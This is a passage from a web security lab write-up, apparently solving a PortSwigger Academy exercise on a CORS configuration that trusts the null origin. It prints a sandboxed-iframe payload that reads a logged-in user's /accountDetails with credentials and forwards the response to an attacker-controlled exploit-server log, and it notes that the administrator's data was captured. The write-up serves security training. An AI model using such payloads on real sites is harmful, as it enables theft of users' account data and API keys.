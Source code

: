 ---------------------------------------------

We have user's information in /accountDetails:



![img](images/CORS%20vulnerability%20with%20trusted%20null%20origin/2.png)



We will send the payload:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a9e008604151c3181d9023f008a00cf.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a8d00d304c31c4a8174019d019500e6.exploit-server.net//log?key='+this.responseText;
};
</script>"></iframe>
```

We get a request from the administrator user:



![img](images/CORS%20vulnerability%20with%20trusted%20null%20origin/3.png)


# CORS vulnerability with trusted insecure protocols

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.
